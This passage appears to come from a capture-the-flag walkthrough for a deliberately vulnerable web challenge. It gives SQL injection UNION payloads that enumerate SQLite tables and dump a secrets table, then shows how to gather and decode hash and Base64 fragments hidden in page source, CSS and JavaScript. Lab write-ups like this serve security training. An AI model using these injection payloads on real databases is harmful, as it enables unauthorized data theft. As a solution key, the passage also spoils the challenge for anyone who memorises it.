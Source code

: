 **Extract Database Schema:**
```
admin' UNION SELECT sqlite_version(),2,3--
```

**Extract Table Names:**
```
admin' UNION SELECT name,2,3 FROM sqlite_master WHERE type='table'--
```

**Extract Secrets Table Data:**
```
admin' UNION SELECT note,owner,3 FROM secrets--
```

**Expected Result**: You should get the secret `/assets/inspect.png` from the secrets table.

### Phase 2: Code Analysis
**Objective**: Find hidden hash fragments in the dashboard code.

#### Step 1: Access Dashboard
1. After successful login, you'll be redirected to the dashboard
2. The dashboard contains forensic analysis tools

#### Step 2: Analyze Source Code
**HTML Analysis:**
1. Right-click → View Page Source
2. Look for comments containing hash fragments:
   ```html
   <!-- System hash fragments: 1751721a4245734b1ff733b4a7ebe952 -->
   <!-- Cache optimization: 1751721a -->
   <!-- Debug flags: 4245734b -->
   <!-- Performance data: 1ff733b4 -->
   <!-- Memory allocation: a7ebe952 -->
   ```

3. **Piece together the MD5 hash**: `1751721a4245734b1ff733b4a7ebe952`

**CSS Analysis:**
1. Inspect the CSS file (`style.css`)
2. Look for Base64 fragments:
   ```css
   --data-fragment-1: "VXJsL2lu";
   --data-fragment-2: "c3BlY3QucG5nCg==";
   ```

3. **Piece together the Base64**: `VXJsL2luc3BlY3QucG5nCg==`

**JavaScript Analysis:**
1. Inspect the JavaScript file (`app.js`)
2. Look for Base64 fragments:
   ```javascript
   const _base64Fragment1 = 'VXJsL2lu';
   const _base64Fragment2 = 'c3BlY3QucG5nCg==';
   ```

3. **Decode the Base64**:
   ```bash
   echo "VXJsL2luc3BlY3QucG5nCg==" | base64 -d
   # Output: Url/inspect.png
   ```
